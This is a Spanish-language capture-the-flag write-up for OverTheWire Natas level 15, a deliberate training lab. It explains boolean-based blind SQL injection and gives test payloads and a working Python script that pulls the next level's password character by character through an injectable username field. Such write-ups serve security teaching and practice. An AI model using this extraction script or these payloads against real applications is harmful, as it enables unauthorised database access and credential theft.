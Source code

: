 # Natas 15 – OverTheWire

La página muestra un formulario con un campo para buscar un usuario, si el usuario existe, la respuesta es: `This user exists.` y si no existe: `This user doesn't exist.`

No se muestran errores ni resultados de la base de datos — solo un mensaje booleano (sí/no).

## Analisis

Este tipo de comportamiento sugiere que el backend ejecuta algo como:

```php
$query = "SELECT * FROM users WHERE username='" . $_GET['username'] . "'";
```

Y luego:

```php
if (mysql_num_rows($result) > 0)
    echo "This user exists.";
else
    echo "This user doesn't exist.";
```

Aquí no vemos la contraseña directamente, pero podemos inyectar condiciones en el parámetro `username` y deducir la contraseña carácter por carácter a través del mensaje de respuesta.

### Concepto: Blind SQL Injection

En una **SQLi normal**, ves datos o errores.
En una **SQLi ciega**, solo tienes una respuesta “verdadero o falso”.
Por tanto, el ataque se basa en preguntas como:

>“¿El primer carácter de la contraseña es una `a`?”

Si la respuesta es “User exists”, la condición fue verdadera.
Si es “User doesn’t exist”, fue falsa.

Repetimos eso letra por letra.

Teniendo esto en cuenta lo primero que vamos a hacer es comprobar que la página es vulnerable a SQLi con una condicion que siempre sea verdadera.

```url
natas16' OR '1'='1
```

Si el mensaje cambia a “This user exists.”, sabemos que hay inyección SQL. Sabemos que las contraseñas están guardadas en `/etc/natas_webpass/`. En este caso, la base de datos probablemente contiene una tabla users con una columna password.

Probamos algo como:

```url
natas16" AND password LIKE BINARY "a%" --
```

Si la respuesta es “This user exists.” → significa que la contraseña empieza por `a`.

Como es tedioso hacerlo a mano, podemos automatizarlo con un script en Python.

Por ejemplo:

```python
import requests
from string import ascii_letters, digits

chars = ascii_letters + digits
url = "http://natas15.natas.labs.overthewire.org"
auth = ('natas15', '<contraseñaNatas15>')
found = ""

while True:
    for c in chars:
        payload = f'natas16" AND password LIKE BINARY "{found + c}%" -- '
        r = requests.get(url, auth=auth, params={"username": payload})
        if "This user exists" in r.text:
            found += c
            print(f"[+] Encontrada: {found}")
            break
    else:
        break
print("Contraseña:", found)
```

Después de unas iteraciones, el script encuentra la contraseña de Natas 16:

![Contraseña](Assets/Natas15/Contraseña.png)

### Concepto: SQL Injection ciega

La **Blind SQLi** se basa en inferir información a partir del comportamiento de la aplicación.

Existen dos variantes:

- **Boolean-based:** el resultado depende de una condición verdadera/falsa.
- **Time-based:** se usan funciones como `SLEEP(5)` para distinguir respuestas por tiempo.
